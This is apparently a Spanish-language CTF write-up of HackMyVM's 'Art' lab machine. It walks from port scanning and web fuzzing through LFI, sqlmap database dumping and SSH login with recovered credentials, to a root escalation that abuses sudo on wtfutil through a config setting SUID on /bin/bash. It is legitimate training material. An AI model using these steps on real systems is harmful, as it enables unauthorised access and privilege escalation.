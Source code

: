 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - HackMyVM
  - Easy
  - Linux
  - HTTP
  - FuzzingWeb
  - BurpSuite
  - SQLI
  - SSH
  - PrivilegeEscalation
  - Sudo
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#HTTP|HTTP]]
	- [[#Enumeración#Fuzzing Web|Fuzzing Web]]
		- [[#Fuzzing Web#Burp Suite|Burp Suite]]
- [[#Explotación|Explotación]]
	- [[#Explotación#LFI|LFI]]
	- [[#Explotación#SQLI|SQLI]]
	- [[#Explotación#SSH|SSH]]
	- [[#Explotación#Escalada de Privilegios|Escalada de Privilegios]]
		- [[#Escalada de Privilegios#Sudo|Sudo]]

---
# Resolviendo la máquina Art

>En esta publicación, comparto cómo resolví la máquina **Art** de [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Art).

---
## Enumeración
### Ping

Ejecutamos un *ping* para comprobar la conectividad y obtener pistas sobre el sistema operativo.

`ping -c 1 192.168.1.120`

![[Pasted image 20250726111857.png]]

*TTL=64* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.120 -oG allPorts`

![[Pasted image 20250726112010.png]]

`nmap -p22,80 -sCV 192.168.1.120 -oN targeted `

![[Pasted image 20250726112034.png]]
### HTTP

`http://192.168.1.120/`

![[Pasted image 20250726112204.png]]

![[Pasted image 20250726112236.png]]

Se descargan las imágenes para analizar si contienen información oculta.

`wget http://192.168.1.120/abc321.jpg`

`wget http://192.168.1.120/jlk19990.jpg`

`wget http://192.168.1.120/ertye.jpg`

`wget http://192.168.1.120/zzxxccvv3.jpg`

`steghide extract -sf abc321.jpg`

`steghide extract -sf ertye.jpg`

`steghide extract -sf jlk19990.jpg`

`steghide extract -sf zzxxccvv3.jpg`

No se encuentra información oculta mediante *steghide*.
### Fuzzing Web

`gobuster dir -u http://192.168.1.120/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 64`

![[Pasted image 20250727074620.png]]
#### Burp Suite

Al no encontrar nada en el *fuzzing web*, se procede a analizar la petición con *Burp Suite*.

Como hemos visto, nos da una pequeña pista, que puede tener una *tag* mal configurada.

![[Pasted image 20250727075405.png]]

---
## Explotación
### LFI

Al detectar que la etiqueta (`tag`) está mal configurada, se prueba a realizar un **LFI (Local File Inclusion)**.

`wfuzz -c --hl=4 -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt http://192.168.1.120/index.php?tag=FUZZ`

![[Pasted image 20250727075622.png]]

Se prueban las credenciales obtenidas en el servicio **SSH**, pero no son válidas.
### SQLI

`sqlmap -u "http://192.168.1.120/index.php?tag=" --dbs`

![[Pasted image 20250727075852.png]]

`sqlmap -u "http://192.168.1.120/index.php?tag=" -D gallery --tables`

![[Pasted image 20250727080032.png]]

`sqlmap -u "http://192.168.1.120/index.php?tag=" -D gallery --dump`

![[Pasted image 20250727080137.png]]

Se prueban las credenciales en el servicio **SSH**, sin éxito.

Se observa en la tabla de las imágenes, que una de ellas no la hemos analizado, se procede a descargar y analizar para ver si tiene información oculta.

`wget http://192.168.1.120/dsa32.jpg`

Nos devuelve un archivo llamado: `yes.txt`.

Se visualiza el contenido del archivo `yes.txt`, donde se encuentran las credenciales válidas.

`cat yes.txt`

![[Pasted image 20250727080525.png]]

Se obtienen las credenciales: `lion` - `shel0vesyou`.
### SSH

`ssh lion@192.168.1.120`

![[Pasted image 20250727080726.png]]

`ls`

![[Pasted image 20250727080814.png]]
### Escalada de Privilegios
#### Sudo

`sudo -l`

![[Pasted image 20250727081547.png]]

`wtfutil` es una dashboard de terminal que *ejecuta comandos definidos por el usuario* en su configuración (`~/.config/wtf/config.yml`).

Se puede explotar creando el archivo de configuración, ejemplo del archivo: [config.yml](https://github.com/wtfutil/wtf/blob/trunk/_sample_configs/sample_config.yml).

`cd /tmp`

Se crea el archivo `config.yml` necesario para explotar la herramienta `wtfutil`.

![[Pasted image 20250727081751.png]]

```
wtf:
  grid:
    columns: [50]
    rows: [3]
  mods:
    root_shell:
      type: cmdrunner
      cmd: "/bin/chmod"
      args: ["u+s", "/bin/bash"]
      enabled: true
      position:
        top: 0
        left: 0
        height: 1
        width: 1
      refreshInterval: 300
```

`sudo /bin/wtfutil --config=/tmp/config.yml`

`Ctrl + C`

`bash -p`

![[Pasted image 20250727081922.png]]

`cd /root`

Se localiza la *flag* de `root` con el siguiente comando:

`find / -name root.txt 2>/dev/null`

![[Pasted image 20250727082031.png]]

---
